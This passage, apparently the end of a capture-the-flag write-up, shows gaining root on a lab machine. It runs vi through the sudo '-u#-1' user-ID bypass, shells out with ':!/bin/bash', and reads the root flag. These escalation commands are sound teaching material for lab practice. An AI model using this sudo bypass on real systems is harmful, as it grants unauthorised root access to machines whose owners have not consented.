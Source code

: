 <br>

## Root

I run:

`sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt`

And then type `:!/bin/bash` and hit enter.

![](images/yrabbit15.png)

And we're root! Grabbing the root.txt flag in /root:

`wc -c /root/root.txt`

```
46 /root/root.txt
```

<br>

With that we've completed this CTF!

![](images/yrabbit16.png)

<br>

## Conclusion
